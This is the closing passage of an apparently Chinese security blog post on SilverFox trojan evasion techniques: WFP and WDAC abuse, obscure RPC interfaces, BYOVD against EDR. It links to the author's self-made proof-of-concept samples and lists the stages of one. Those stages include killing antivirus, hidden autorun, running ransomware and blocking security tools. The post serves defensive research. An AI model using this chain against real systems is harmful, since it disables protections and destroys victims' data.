银狐木马（SilverFox）在 2025 年展现出的对抗技术演进，标志着黑产团伙在端点对抗领域的投入已达到准 APT 级别。从利用 WFP 和 WDAC 等系统原生机制“借刀杀人”禁用安全软件，到挖掘冷门 RPC 接口绕过Hook加驱，再到利用 BYOVD 技术直接在内核层通过漏洞驱动对抗 EDR，这些手法无不显示出攻击者对 Windows 操作系统底层机制的深刻理解。尤其值得注意的是，银狐将攻击行为伪装成合法的系统管理操作（如配置防火墙规则、应用控制策略、注册表文件操作等）。这种“白利用”的思路极大地提高了检测难度，传统的基于特征码或单一行为的防御手段已难以奏效。

{: .prompt-info }
> 对于蓝队而言，这不仅意味着需要关注文件层面的威胁，更需要加强对系统配置变更、异常驱动加载以及合法进程异常行为的监控。攻防对抗是一场永无止境的博弈，深入研究这些前沿样本的实现细节，是提升防御体系韧性的必经之路。

## 附录：卡饭安全论坛样本链接

为了验证上述技术的可行性，我制作了一系列概念验证（POC）样本，并发布在卡饭安全论坛供研究交流。以下是相关帖子的链接：

*   [自制 仿银狐 POC 1](https://bbs.kafan.cn/thread-2285537-1-1.html)
*   [自制 仿银狐 POC 2](https://bbs.kafan.cn/thread-2285585-1-1.html)
*   [自制 仿银狐 POC 3](https://bbs.kafan.cn/thread-2285726-1-1.html)
*   [自制 仿银狐 POC 4](https://bbs.kafan.cn/thread-2285972-1-1.html)

其中，**样本 4** 集成了本文提到的多种对抗技术，其完整执行流程如下：

```python
ST0_DECODE_PAYLOADS =           "Stage 0 - Decode payloads"
ST1_PREPARE_RDI =               "Stage 1 - Prepare RDI"
ST2_ADD_WFP_FILTERS =           "Stage 2 - Add WFP blocking filters - FwpmFilterAdd0"
ST3_LOAD_BYOVD_RPC =            "Stage 3 - Load BYOVD - CreateSvcRpc"
ST3_LOAD_BYOVD_RPC_SIGFLIP =    "Stage 3 - Load BYOVD - CreateSvcRpc (SigFlip)"
ST3_LOAD_BYOVD_API =            "Stage 3 - Load BYOVD - CreateServiceW"
ST3_LOAD_BYOVD_API_SIGFLIP =    "Stage 3 - Load BYOVD - CreateServiceW (SigFlip)"
ST4_RUN_AV_KILLER =             "Stage 4 - Run AV killer - ZwTerminateProcess"
ST5_INVISIBLE_AUTORUN =         "Stage 5 - Add Autorun - FileAssociations + DosDevices Redirect + PendingFileRenameOperations"
ST6_RUN_RANSOMWARE =            "Stage 6 - Run Ransomware"
ST7_ADD_WDAC_POLICY_P7B =       "Stage 7 - Add WDAC blocking policies - Direct"
ST7_ADD_WDAC_POLICY_CITOOL =    "Stage 7 - Add WDAC blocking policies - CiTool"
ST8_REBOOT =                    "Stage 8 - Reboot"
```